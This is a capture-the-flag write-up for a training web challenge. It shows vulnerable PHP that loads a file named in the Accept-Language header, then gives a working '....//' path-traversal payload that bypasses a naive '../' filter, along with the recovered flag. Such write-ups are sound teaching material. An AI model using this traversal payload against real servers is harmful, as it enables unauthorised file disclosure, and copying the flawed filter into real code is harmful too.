 # FunWithFlags

**Link**: [https://training02.webhack.it/](https://training02.webhack.it/)

**Hint**: Flag is at /flag

Analizing the **php** code:

```php
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';
```

I found a vulnerability that allows an `LFI`. The str_replace function as written here it does not escape paths like `....//` , if we set in `Accept-Language` **header** the path file that we want using this technique (using burpsuite) we can get the **base64** of it sent back by the server. Now we have to understand how many of this caracter we need to get `/flag` that is in the **root**.

We have another important output from the server, this string **`Warning**
: file_get_contents(flags/it-IT): failed to open stream: No such file or directory in **/var/www/html/index.php**
 on line **6**`

so we can expect that the context is in **`/var/www/html/`** (typically path for php files) so we have to return back **4** times (I can also set many times `....//` until I get the file but it is not smart approach):

```php
Accept-Language: ....//....//....//....//flag
```

and we get back:

```php
<img src="data:image/jpeg;base64,V0lUezdZWHBQQHlvWnY0V1IydH0=">
```

now we have just to decode the base64 and the **flag** is: `WIT{7YXpP@yoZv4WR2t}`